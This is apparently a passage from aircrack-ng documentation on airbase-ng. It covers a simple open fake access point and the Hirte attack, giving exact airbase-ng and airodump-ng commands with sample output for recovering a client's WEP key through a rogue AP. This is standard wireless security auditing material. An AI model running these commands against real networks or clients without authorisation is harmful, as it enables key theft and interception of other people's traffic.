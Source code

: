 ### Simple {#simple}

 Using “airbase-ng &lt;iface&gt;” is enough to setup an AP without any encryption. It will accept connections from any MAC for every ESSID, as long as the authentication and association is directed to the BSSID.

 You really cannot do much in this scenario. However, it will present a list of clients which are connecting plus the encryption method and the SSIDs.

### Hirte Attack in Access Point mode {#hirte_attack_in_access_point_mode}

 This attack obtains the wep key from a client. It depends on receiving at least one ARP request or IP packet from the client after it has associated with the fake AP.

 Enter:

```
 airbase-ng -c 9 -e teddy -N -W 1 rausb0
```

 Where:

*  -c 9 specifies the channel
*  -e teddy filters a single SSID
*  -N specifies the Hirte attack
*  -W 1 forces the beacons to specify WEP
*  rausb0 specifies the wireless interface to use

 The system responds:

```
 18:57:54  Created tap interface at0
 18:57:55  Client 00:0F:B5:AB:CB:9D associated (WEP) to ESSID: "teddy"
```

 On another console window run:

```
 airodump-ng -c 9 -d 00:06:62:F8:1E:2C -w cfrag wlan0
```

 Where:

*  -c 9 specifies the channel
*  -d 00:06:62:F8:1E:2C filters the data captured to fake AP MAC \(this is optional\)
*  -w specifies the file name prefix of the captured data
*  wlan0 specifies the wireless interface to capture data on

 Here is what the window looks like when airbase-ng has received a packet from the client and has successfully started the attack:

```
 CH  9 ][ Elapsed: 8 mins ][ 2008-03-20 19:06                                         
                                                                                                            
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                            
  00:06:62:F8:1E:2C  100  29      970    14398   33   9  54  WEP  WEP         teddy                           
                                                                                                            
  BSSID              STATION            PWR   Rate  Lost  Packets  Probes                                      
                                                                                                            
  00:06:62:F8:1E:2C  00:0F:B5:AB:CB:9D   89   2-48     0   134362   
```

